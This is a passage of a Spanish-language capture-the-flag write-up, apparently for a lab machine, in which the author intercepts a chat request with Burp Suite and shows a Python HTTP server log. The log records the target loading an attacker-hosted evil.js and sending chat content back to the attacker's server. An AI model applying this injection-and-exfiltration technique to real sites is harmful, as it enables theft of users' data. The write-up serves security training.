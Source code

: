 ![Write-up Image](images/Screenshot_6.png)

Podemos interceptar una petición de mensaje con `burpsuite` para hacernos una mejor idea de como se tramita el mensaje por detrás.
![Write-up Image](images/Screenshot_7.png)

Después de probar un rato...
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.230.190 - - [31/Jul/2024 19:18:34] "GET /evil.js HTTP/1.1" 200 -
10.129.230.190 - - [31/Jul/2024 19:18:34] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:18:34] "OPTIONS /injected HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:18:34] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:18:34] "OPTIONS /loadedd HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:18:34] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:18:34] "OPTIONS /?q=Greetings!.%20How%20can%20i%20help%20you%20today%20?.%20You%20can%20type%20help%20to%20see%20some%20buildin%20commands HTTP/1.1" 501 -
```
